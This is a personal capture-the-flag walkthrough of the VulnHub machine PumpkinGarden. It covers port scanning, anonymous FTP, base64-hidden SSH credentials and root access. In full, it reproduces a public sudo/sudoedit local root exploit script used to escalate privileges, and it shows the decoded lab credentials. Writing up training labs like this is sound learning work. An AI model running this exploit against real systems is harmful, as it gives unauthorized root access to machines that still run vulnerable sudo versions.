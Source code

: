 ## Mission-Pumpkin v1.0: PumpkinGarden

The series took my eye on vulnhub, so I decided to [check them out.](https://www.vulnhub.com/?q=pumpkin) 

![Image](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-10.png)

### Finding out the IP-Adress

This time it was very easy - the vm itself showed it on the welcome screen.

The IP I had to deal with was 192.168.178.59

### Looking for open doors

I fired up Zenmap (yeah I know, but I really like the GUI) to take a closer look at open ports.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-19.png)

### FTP-Server

So there is nothing but a ftp-server. Let's check it out.

vsftp (very secure ftp) supports often an anonymous login. Thats what I tried first:

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-13.png)

Because I never worked with ftp like this before i messed up with the commands a little.
But in the end I got what I wanted.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-12.png)

That note.txt said:
```markdown
Hello Dear! 
Looking for route map to PumpkinGarden? I think jack can help you find it.
````
Who the heck is Jack?
Maybe this is a username or something like that. I'll save that for later.

### Are there any other open ports?

Because I didn't know what to search for, I decided to fire up Zenmap again, but this time with a larger portrange.
Bingo!
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-14.png)

Now I got a fileserver, a webserver and ssh. Thats a step forward. 

### Webserver

Let's check out the webserver.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-15.png)

It says `the route map to PumpkinGarden is somewhere under the hood`. 

That made me take a closer look at the sourcecode.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-16.png)

That went well. But what does it mean? This ist an absolute beginner vm, so I didn't expect it's talking about steganography.
I took a closer look at the image, but found nothing. Except the path where it is stored.
`192.168.178.59:1515/images`
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-18.png)

`hidden_secret` sounds good. After opening that directory, I found a textfile (clue.txt).

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-1.png)

That looks like a hash or some other type of decoded text. I ran it through hash-identifier, but there were no results.
Next possibility that came to my mind was base64.

`echo c2NhcmVjcm93IDogNVFuQCR5 | base64 -d`

Voilá `scarecrow : 5Qn@$y`

That looks like a set of credentials. 

### SSH

Maybe they work for SSH?

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-2.png)

Oh yes, they do. First big step is done, were inside of the vm.

After running the `ls -la` Command, I recognized a file called note.txt.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-3.png)

Goblin? What for a goblin? Is this another username for ssh?
A quick check of `/etc/passwd` revealed that I assumed this correctly.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-4.png)

Let's try if that awkward string is the password for goblin.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-5.png)

I'm running `ls -la` again and was presented with another note.txt.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-6.png)

### Privilege escalation

That sounds very good, but unfortunately it was a dead end because the site threw up a 404 Error.
Damn! After a couple of minutes spending on google I found out that this exploit was a bash script, which escalates our privileges to root.
Here's the script:
````
#!/bin/sh
# Tod Miller Sudo 1.6.x before 1.6.9p21 and 1.7.x before 1.7.2p4
# local root exploit
# March 2010
# automated by kingcope
# Full Credits to Slouching
echo Tod Miller Sudo local root exploit
echo by Slouching
echo automated by kingcope
if [ $# != 1 ]
then
echo "usage ./sudoxpl.sh <file you have permission to edit>"
exit
fi
# cd /tmp
cat > sudoedit << _EOF
#!/bin/sh
echo ALEX-ALEX
su
/bin/su
/usr/bin/su
_EOF
chmod a+x ./sudoedit $1
````
I went to `/tmp` to create the file and run it, but it didn't work.

Why? Maybe I should run this as scarecrow.

Nope, that won't work eiter. But what now?

I logged in again as goblin an run `ps -aux` which shows all current running processes.

There was a damn script running, which empties `/tmp` and `/home/goblin` every 15 seconds.

Ok, I had to create the script, change the permissions that I could execute it and run it within 15 secs.

I needed a few tries, but with the correct commands in my bash history I could accomplish that.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-7.png)

# BAM there it is - the root shell!

Running `ls -la` again showed me that there is a PumpkinGarden_Key file.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-8.png)

This is a base64 string again. So i echoed it into the base64 decoder.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-9.png)

That's it! I really had fun with that box! Can't wait to take a closer look at part II of the series.

Thank you for reading and happy pwning!

Contact -> [Twitter](https://twitter.com/_the_someone)
